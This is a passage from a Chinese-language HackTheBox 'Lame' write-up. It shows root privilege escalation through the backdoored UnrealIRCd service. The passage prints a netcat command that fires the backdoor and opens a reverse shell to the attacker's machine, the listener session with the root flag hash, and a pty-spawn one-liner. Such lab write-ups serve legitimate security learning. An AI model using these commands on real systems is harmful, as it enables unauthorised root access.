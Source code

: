 因为网络问题没法下载5622.tar.bz2，这边先略过，可见参考文章2：privesc2部分

### 提权3 : UnrealIRCd Backdoored

推测由于网络问题，`netstat -nltp` 数据没能回显过来，从结果中发现6697端口，马上想到 IRC。

`ps auxww | grep -i unreal` 查看unrealIRC进程，发现 `UnrealIRCd` 以root权限运行。

```shell
 ps auxww | grep -i unreal
 root     5612 0.0 0.4   8540 2488 ?       S   01:43   0:00 /usr/bin/unrealircd
 root     6522 0.0 0.1   1784   548 ?       R   06:01   0:00 grep -i unreal
```

根据这篇文章 unrealircd-3281-backdoored ，我们可以利用此服务来创建后门并拿到root权限	

按照参考文章2，做一遍

```shell
 aemon@lame:/tmp$ nc 127.0.0.1 6697
 nc 127.0.0.1 6697
 :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
 :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
 ERROR :Closing Link: [127.0.0.1] (Ping timeout)
```

得到 Metasploitable 的输出，这表明我们在正确的方向。为了方便使用后门，我们可以使用已知的connect-back shell方法。

```shell
 daemon@lame:/tmp$ echo "AB; nc -e /bin/sh 10.10.14.2 5555" | nc 127.0.0.1 6697         
 echo "AB; nc -e /bin/sh 10.10.14.2 5555" | nc 127.0.0.1 6697
 :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
 :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
```

另一边

```shell
 └─$ nc -lvnp 5555   
 listening on [any] 5555 ...
 connect to [10.10.14.2] from (UNKNOWN) [10.10.10.3] 39370
 whoami
 root
 cat /root/root.txt
 29ad7975c49f5ccb49b735a93efbfc4e
```

测试发现IRC的6667和6697端口都可以。

## 他山之石

- https://hackpentest.in/hackthebox-lame/  使用了python获取一个完整的tty SHELL `python -c 'import pty;pty.spawn("/bin/bash")'`，同时提供了非MSF思路。
- https://coldfusionx.github.io/posts/LameHTB/  使用了crackmapexec ， 根据现有exp自己复现了利用代码；distccd的攻击思路、提权思路



---

> 作者: Xavier  
> URL: https://www.bthoughts.top/posts/htb%E9%9D%B6%E6%9C%BA-lame-writeup/  

